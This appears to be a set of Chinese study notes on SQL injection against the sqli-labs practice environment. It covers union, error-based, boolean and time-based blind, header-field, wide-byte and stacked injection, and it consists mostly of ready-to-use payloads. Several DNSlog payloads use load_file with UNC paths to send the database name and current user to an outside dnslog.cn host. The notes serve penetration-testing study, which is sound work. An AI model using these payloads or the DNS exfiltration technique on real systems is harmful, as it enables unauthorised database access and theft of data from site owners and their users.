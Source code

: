 ## SQL注入

>   -   s
>
>   >   -   联合注入
>   >   -   报错注入
>   >   -   盲注
>   >
>   >   >   -   布尔盲注
>   >   >   -   时间盲注
>
>   -   http请求包注入点
>
>   >   -   ua注入：insert into
>   >   -    referer
>   >   -   cookie
>   >   -   xff
>
>   -   宽字节注入
>
>   >   -   数据库使用gbk编码
>   >   -   输入一个单引号ʻ  ——》/'       / 转义
>   >   -   /'   %5c%27
>   >   -    %df'  ——》   %df%5c%27
>
>   -   堆叠注入
>
>   >   -   提前结束语句
>   >   -   堆叠可以执行任意sql语句
>
>   -   dnslog外带注入
>
>   >   -   没有回显、访问过多会被ban（IP被封）
>   >   -   针对于攻防   考虑是否存在安全设备
>   >   -   目录或文件的 UNC 名称可以包括共享名称下的目录路径，格式为： \servername\sharename\directory\filename。
>   >   -   secure_file_priv状态为空
>   >
>   >   ```
>   >   secure_file_priv为null	表示不允许导入导出
>   >   secure_file_priv为指定文件夹时，表示mysql的导入导出只能发生在指定的文件夹
>   >   secure_file_priv没有设置的时候，则表示没有任何限制
>   >   ```
>   >
>   >   -   load_file()   可以访问unc路径
>   >   -   DNSLog：http://www.dnslog.cn/
>   >   -    http://192.168.157.129/sql-labs/Less-1/?id=1'and(select load_file(concat('\\\\', (selecthex(user()))--+

```
select * from users where username='admin' and password='';

联合注入：
猜解数据库名：id=-1' union select 1,2,database()--+

猜解表名：id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security') --+

猜解字段名：id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users') --+

爆出数据：id=-1' union select 1,2,(select concat(username,'~',password) from security.users limit 0,1)--+

报错注入：
id=-1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e))--+


id=-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1)--+

id=-1' and gtid_subset(user(),1)--+
1' and if(1=1,exp(709),0)--+


1、判断是否存在sql注入：字符型（'" ''' ''''周期性变化）、数字型（1/1、1/0）

2、构造基础语句
思考一个问题，为什么直接采用and，不使用or
1' and 1=1 --+  正确的语句
1' and 1=2 --+  错误的语句

3、轮子构造出来之后，需要进行变形
1’ and if(1=1,1,0)=1 --+ 正确的语句
1’ and if(1=1,1,0)=0 --+ 错误的语句

4、继续向下构造
1‘ and if(substr('12',1,1)='1',1,0)=1 --+ 正确的语句
1‘ and if(substr('12',1,1)='2',1,0)=1 --+ 错误的语句

5、最终语句
1‘ and if(substr(user(),1,1)='a',1,0)=1 --+


id=1'+and+if(mid(user(),1,1)='a',1,0)=1--+
id=1'+and+if(length(user()=1,sleep(3),sleep(1)))--+
id=1'+and+if(mid(user(),1,1)='a',exp(709),exp(999))--+  

dnslog外带：
http://127.0.0.1/sqli/Less-1/?iid=1' and (select+load_file(concat('\\\\',(select+database()),'.im3o5g.dnslog.cn/abc')))--+

INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)

INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1',1,updatexml(1,concat(0x7e,(select database()),0x7e),1))#', '$IP', $uname)

1, 1,extractvalue(1,concat(0x7e,database(),0x7e)))# 

INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES (''and extractvalue(1,concat(0x7e,database(),0x7e)) and '', '$IP', $uname)

'extractvalue(1,concat(0x7e,database(),0x7e))' 字符

1', 1,extractvalue(1,concat(0x7e,database(),0x7e)))# 
'and extractvalue(1,concat(0x7e,database(),0x7e)) and '

INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')

'and extractvalue(1,concat(0x7e,database(),0x7e)) and '

www.baidu.com
baidu.com

abc.jmzj4b.dnslog.cn


\\Kiki77\新建文件夹

1' and (select load_file(concat('\\\\',(select hex(user())),'.jmzj4b.dnslog.cn/abc')))--+

\\security.jmzj4b.dnslog.cn/abc
```

